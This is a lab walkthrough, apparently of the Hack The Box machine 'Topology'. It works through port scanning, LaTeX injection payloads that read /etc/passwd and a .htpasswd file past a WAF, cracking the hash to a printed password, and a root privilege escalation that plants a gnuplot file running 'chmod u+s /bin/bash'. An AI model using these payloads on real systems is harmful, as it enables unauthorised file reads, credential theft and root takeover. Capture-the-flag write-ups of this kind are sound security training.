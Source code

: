 # Topology

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.76.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 23:49 +08
Nmap scan report for 10.129.76.27
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

HTTP exploits it seems.&#x20;

### LaTeX Project --> LFI

The website is seems to be a university website:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

There's a LaTeX Equation Generator available. LaTeX is a software made for documentation, and I'm roughly familiar with how it works to make mathematical equations for stuff like university math module notes. Anyways, we have to add `latex.topology.htb` to our `/etc/hosts` file to visit the `equation.php` site available.&#x20;

On the site itself, it just shows some basic LaTeX syntax:

<figure><img src="../../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

There are some exploits available pertaining to Latex Injection, such as being able to read machine files. I tried to use `\input{/etc/passwd}` to read files, but there's a WAF blocking it:

<figure><img src="../../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

I tested different payloads, and eventually found one that worked on this site:

{% embed url="https://0day.work/hacking-with-latex/" %}

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Using this, we can get the first line of the `/etc/passwd` file:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Before carrying on, I wanted to some proper web enumeration to find out what I was supposed to do with this LFI. Using `wfuzz`, I found a `dev` subdomain:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
```

This returns a 401, and visiting it requires credentials:

<figure><img src="../../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

This is a HTTP sign in, meaning we can probably find the credentials in a `.htpasswd` file somewhere. Also, it coincides with the one-line LFI that we have. However, the same command does not work with the `/var/www/dev/.htpasswd` file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like `\lstinputlisting`. However, this payload doesn't work:

```latex
\lstinputlisting{/var/www/dev/.htpasswd}
```

It doesn't work (as I've learnt) because the machine asks for **LaTeX inline math mode.** There are different modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the machine to process our query by switching mode for it.&#x20;

{% embed url="https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and" %}

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text:

<figure><img src="../../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to `$()` in bash) and loads the hash:

<figure><img src="../../../.gitbook/assets/image (2) (13).png" alt=""><figcaption></figcaption></figure>

We can crack the hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:04 DONE (2023-06-12 00:30) 0.2375g/s 236511p/s 236511c/s 236511C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the `dev` subdomain:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

More importantly, we can access the user via `ssh`:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GNUPlot

Within the `/opt` directory, there was a `gnuplot` file present:

```
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

I also ran a `pspy64` while searching more about this particular software, and found some interesting processes:

```
2023/06/11 12:35:01 CMD: UID=0    PID=2774   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2773   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2776   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2775   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2781   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2787   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/11 12:35:01 CMD: UID=0    PID=2786   | sed s/,//g 
2023/06/11 12:35:01 CMD: UID=0    PID=2785   | 
2023/06/11 12:35:01 CMD: UID=0    PID=2782   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;                                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2788   | gnuplot /opt/gnuplot/networkplot.plt 
```

We don't have read access to the directory, but we have write access, meaning we have to manipulate the `.plt` files present on the `/opt` directory to somehow achieve RCE as `root`. Or, we can just add another `.plt` file.&#x20;

I found a resource that shows the `system` keyword can be used to execute system commands:

{% embed url="http://www.bersch.net/gnuplot-doc/system.html" %}

We just need to create a `priv.plt` file within the directory:

```
system "chmod u+s /bin/bash"
```

Then, we can just wait for `root` to execute our new file and privesc that way:

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
